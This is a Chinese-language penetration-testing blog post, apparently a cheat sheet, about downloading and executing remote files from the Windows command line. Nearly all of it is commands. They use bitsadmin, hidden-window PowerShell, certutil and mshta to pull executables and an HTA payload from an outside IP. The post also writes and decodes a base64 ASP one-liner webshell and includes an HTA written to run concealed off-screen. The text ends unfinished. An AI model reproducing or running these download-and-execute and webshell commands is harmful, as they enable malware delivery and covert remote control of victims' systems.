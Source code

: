 +++
date = "2018-02-06T15:12:32+08:00"
description = "在windows的终端下下载文件，在windows的终端下执行远程文件"
draft = false
tags = ["intranet"]
title = "Windows终端下载文件和执行远程文件"
topics = ["Pentest"]

+++

### 0x00 bitsadmin下载文件
win2008
```bash
bitsadmin /rawreturn /transfer getfile http://114.115.214.203/a.exe C:\Windows\Temp\a.exe
bitsadmin /rawreturn /transfer getpayload 114.115.214.203/a.zip C:\Windows\Temp\a.zip
bitsadmin /transfer myDownLoadJob /download /priority normal "http://114.115.214.203/a.exe" "C:\Windows\Temp\a.exe"
```

### 0x01 powershell下载文件
win2008
```bash
powershell (new-object System.Net.WebClient).DownloadFile("http://114.115.214.203/a.exe","C:\Windows\Temp\a.exe")

#-w hidden 下载后终端自动退出
powershell -w hidden -c (new-object System.Net.WebClient).DownloadFile("http://114.115.214.203/a.exe","C:\Windows\Temp\a.exe")
```

### 0x02 certutil下载文件
```bash
certutil -urlcache -split -f http://114.115.214.203/test.txt test.txt

certutil -urlcache -split -f http://114.115.214.203/a.exe a.exe

#写文件的方法：
mshta vbscript:createobject("scripting.filesystemobject").createtextfile("test11.txt",2,ture).writeline("PCVleGVjdXRlKHJlcXVlc3QoImwiKSklPg==")(window.close)
certutil -decode test11.txt mu.asp #一句话马
type mu.asp
```

### 0x03 mshta执行远程hta
```
mshta http://114.115.214.203/payload.hta
```
payload.hta
```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <script language="VBScript">
        Window.ReSizeTo 0, 0
        Window.moveTo -2000,-2000
        Set objShell = CreateObject("Wscript.Shell")
        objShell.Run "calc.exe"
        self.close
    </script>
</head>
<body>

demo

</body>
</html>
```

未完待续。。。